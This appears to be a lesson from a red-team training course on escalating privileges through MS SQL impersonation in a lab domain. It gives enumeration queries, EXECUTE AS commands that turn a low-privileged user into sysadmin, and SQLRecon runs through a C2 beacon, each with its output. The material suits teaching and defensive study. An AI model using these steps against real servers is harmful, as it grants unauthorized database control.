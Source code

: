 MS SQL impersonation, or context switching, is a means which allows the executing user to assume the permissions of another user without needing to know their password.  One handy use case for the feature is to allow administrators to impersonate a user for testing purposes, e.g. a user is having a problem and they want to eliminate permissions as an issue.

Impersonations must be explicitly granted through securable configurations.

  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/1ac/eb4/226/securables.png)

  

In this example, `DEV\Domain Users` have been granted the ability to impersonate the `DEV\mssql_svc` account.  This is clearly a security issue because it gives all Domain Users sysadmin privileges on this instance.

We can discover accounts to impersonate manually using the following queries:
```sql
SELECT * FROM sys.server_permissions WHERE permission_name = 'IMPERSONATE';
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/faf/047/15b/impersonations.png)

  

This shows that the `grantee_principal_id`, 268, is allowed to impersonate the `grantor_principal_id`, 267.  The IDs don't mean much, so we can look them up with:
```sql
SELECT name, principal_id, type_desc, is_disabled FROM sys.server_principals;
```
  

![](https://files.cdn.thinkific.com/file_uploads/584845/images/582/4f2/a54/principals.png)

  

Here, we see that 267 is DEV\mssql_svc and 268 is DEV\Domain Users.

You can also write your own SQL query that will join these two, or use SQLRecon's impersonate module.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m impersonate

[+] Enumerating accounts that can be impersonated on sql-2.dev.cyberbotic.io,1433:

name | 
-------
DEV\mssql_svc |
```
  

We can take advantage of this as bfarmer, who we know is not a sysadmin.
```sql
SELECT SYSTEM_USER;
DEV\bfarmer

SELECT IS_SRVROLEMEMBER('sysadmin');
0
```
  

Use `EXECUTE AS` to execute a query in the context of the target.
```sql
EXECUTE AS login = 'DEV\mssql_svc'; SELECT SYSTEM_USER;
DEV\mssql_svc

EXECUTE AS login = 'DEV\mssql_svc'; SELECT IS_SRVROLEMEMBER('sysadmin');
1
```
  

SQLRecon modules can also be run in "impersonation mode" by prefixing the module name with an `i` and specifying the principal to impersonate.
```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe -a windows -s sql-2.dev.cyberbotic.io,1433 -m iwhoami -i DEV\mssql_svc

[+] Logged in as: 
DEV\mssql_svc

[+] Mapped to the user: 
dbo

[+] Roles: 
User is a member of public role
User is a member of sysadmin role
User is a member of setupadmin role
User is a member of serveradmin role
User is a member of securityadmin role
User is a member of processadmin role
User is a member of diskadmin role
User is a member of dbcreator role
User is a member of bulkadmin role
```